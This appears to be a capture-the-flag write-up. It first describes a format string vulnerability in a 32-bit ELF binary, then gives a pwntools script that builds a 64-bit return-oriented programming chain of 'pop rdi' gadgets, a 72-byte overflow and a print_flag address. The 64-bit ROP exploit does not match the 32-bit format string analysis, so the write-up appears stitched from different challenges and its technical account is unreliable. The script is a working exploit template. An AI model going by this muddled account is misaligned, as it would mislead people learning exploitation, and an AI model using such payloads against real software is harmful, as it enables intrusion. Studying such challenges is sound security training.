 ![description](fms1.PNG)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- when reading the source code, we can see that the  binary reads 60 bytes from stdin, then prints the buffer and checks if the target_variable's value is different from 0. If true, it'll print the flag.
- the vulnerability is in printf(name),it's written without a format specifier, so it's a Format String vulnerability as the name of the challenge indicated it.
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
## find the address of target_variable
target_variable is a global variable, and since it's not initialized , it's in the .bss section.
to find it's address, we can use objdump.
![objdump](objdump.PNG)

we can see that the address is : 0x0804c034
## Address of print_flag
inside gdb : 
- p print_flag
the function is at : 0x40121f 
## Gadgets
using ropper, we can find the wanted gadgets : 
- ropper --file task7 --search "pop rdi" #0x0000000000401323
- ropper --file task7 --search "pop ret" #0x0000000000401321
## Payload
```python
from pwn import *
p = process("./task7")                                                                                                  
poprdi = 0x401323                                                                                                       
poprsi = 0x401321                                                                                                       
print_flag = 0x40121f                                                                                                   
payload = b""                                                                                                           
payload += b"A"*72                                                                                                      
payload += p64(poprdi)                                                                                                  
payload += p64(0xdeadbeef)                                                                                              
payload += p64(poprsi)                                                                                                  
payload += p64(0xc0febabe)                                                                                              
payload += p64(0)                                                                                                       
payload += p64(print_flag)                                                                                             
p.sendline(payload)                                                                                                     
p.interactive()
